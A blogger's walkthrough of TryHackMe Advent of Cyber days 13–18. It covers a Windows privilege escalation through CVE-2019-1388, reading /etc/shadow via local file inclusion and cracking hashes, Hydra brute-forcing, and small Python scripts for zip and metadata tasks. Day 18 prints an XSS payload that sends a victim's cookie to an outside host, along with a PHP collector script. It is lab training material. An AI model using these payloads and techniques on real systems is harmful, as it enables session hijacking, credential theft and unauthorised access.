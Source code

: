 So this is third part to the Advent_of_Cyber 25 part Series on <https://tryhackme.com>

## Day13(Task 18)
I started my day today with one of the most frustrating machines to root ,it was this machine
Starting with a nmap scan as usual 

![](img/thm_advent/50.png)

we see ports 80(http),3389(rdp) open and found about the services by selective scans
Checking out the http page,nothing interesting

![](img/thm_advent/51.png)

running gobuster for hidden directory search ,found a hidden directory **retro** which turns out to be a blog 

![](img/thm_advent/52.png)

checking out the comment by **wade**,i thought that maybe  this is one of the users and got the password as **parzival**
as metioned in the comment 

![](img/thm_advent/53.png)

logging into wordpress dashboard doesn't give us anything useful either

![](img/thm_advent/54.png)

now using **Remmina** for rdp connection instead of default as it hash gui and easy to use 
got the user.txt file on the desktop itself which is one of the flag

![](img/thm_advent/56.png)

now on open chrome i got a bookmark refering to a particular vulnerablitiy leading to priv esc in windows server 16
i found a [gif](https://github.com/jas502n/CVE-2019-1388/blob/master/CVE-2019-1388.gif) related to this

so i start with making the internet explorer the default application as  I saw in the gif

![](img/thm_advent/55.png)
I could also see the link to the certificate on hovering around the link

![](img/thm_advent/57.png)

on chossing internet explorer it showed that this page can't be displayed
so lets save it ,just following the gif

![](img/thm_advent/59.png)

using the name field to navigate to **cmd.exe** file in system32 folder

![](img/thm_advent/63.png)

![](img/thm_advent/58.png)


![](img/thm_advent/60.png)

finally got the command prompt and on checking the user it was the administrator so lets read the root flag

![](img/thm_advent/61.png)

got the flag in the desktop folder of the admin

![](img/thm_advent/62.png)

This was literally one of the toughest one in the series till now as it used knowledge from the previous task as well


## Day14(Task 19)
it was just a basics amazon aws bucket access task 

![](img/thm_advent/64.png)

![](img/thm_advent/65.png)

I don't even need to explain it :)

## Day15(Task 20)
we have are given a box so lets start with the nmap scan first as always

![](img/thm_advent/66.png)

Lets checkout the webpage get the answer to the first question here itself 

![](img/thm_advent/67.png)

As it was mentioned in the challenge title it was a Local File Inclusion(LFI) task it was very similar to the one I did in the Natas wargame so I checked the /etc/passwd file first and we got charlie as one of the users

![](img/thm_advent/68.png)

checking out the /etc/shadow file to get charlie's password hash

![](img/thm_advent/69.png)

cracking the hash with john

![](img/thm_advent/70.png)

the follwing task was simple just login to ssh using credentials found and read the flag

![](img/thm_advent/71.png)


## Day16(Task 21)
This challenge was more of a scripting challenge 

### task1
we have to find the no. of non-zip files after all the decompression 
the script is a little bit messy but worked for me

```python
import zipfile
import os

count=0

with zipfile.ZipFile('final-final-compressed.zip',"r") as zip_1:
	zip_1.extractall("decompress_1")

list_f=os.listdir("decompress_1")
# print(list_f)

for a in list_f:
	with zipfile.ZipFile("decompress_1/"+a,"r") as zip_1:
		zip_1.extractall("decompress_2")

print(len(os.listdir("decompress_2")))

```

### task 2
we have to check the metadata of the .txt file found in the previous task and check which all have Version: 1.1 in the metadata

```python 
import os 
import exiftool

m_count=0
file=[]

list_f=os.listdir("./")
# print(list_f)

for l in list_f:
	file.append(l)

with exiftool.ExifTool() as exif:
	metadata=exif.get_metadata_batch(file)

for d in metadata:
	try:
		if(d[u'XMP:Version']==1.1):
			# print(d)
			m_count+=1
	except:
		continue
	# print(d)
	# print("\n")

print(m_count)
```

### task 3 
we have to find the name of the file which contains the string **password** this can be done simply without using any script with the help of grep

![](img/thm_advent/72.png)

## Day17(Task 22)
this task was an introduction to ***Hydra*** which is a brute force online password cracking program; a quick system login password 'hacking' tool.
first we had to brute-force the password for user molly in the http-post-form using rockyou.txt 
using gobuster to find the login directory ,I am lazy did not wanted to guess the directory 

![](img/thm_advent/73.png)

while the brute for login page was running I decided to brutforce the ssh pass in another tab 
and got the pass almost instantly

![](img/thm_advent/74.png)

next I login through ssh and get the second flag

![](img/thm_advent/75.png)

while the brute force for login was running I viewed the other file present in the server and came across an interesting file which had the initial flag and password for the login form and yet still that hydra script was running,**lol**

![](img/thm_advent/76.png)


## Day18(Task 23)

this task was very interesting as I learnt many more things about XSS rather than it just being a vulnerability
we are presented with the site,just a normal login form and register page was not vulnerable to SQLi so registering as a normal user

![](img/thm_advent/77.png)

while logging in we see in the request it shows that there is authid assigned to each user and so is  for admin so our
goal was to get the authid for the admin

![](img/thm_advent/78.png)

After logging in we get a forum page where we can post a comment and this comment input field was vulnerable to XSS
so I read about how to steal cookies using XSS and found an article mention to use 
```
<script>document.location="http://<machine-ip>/cookie.php?c="+document.cookie</script>
```
the above thing as payload 
and the cookie.php file is very trivial one

```php
<?php
	$cookie=$_GET["c"];
?>
```
I setup a php lister at port 8000 and get the admin authid after a few minutes after submitting the comment 

![](img/thm_advent/79.png)

Now this authid can be used to forge the cookie and login as admin into the forum
That's it for today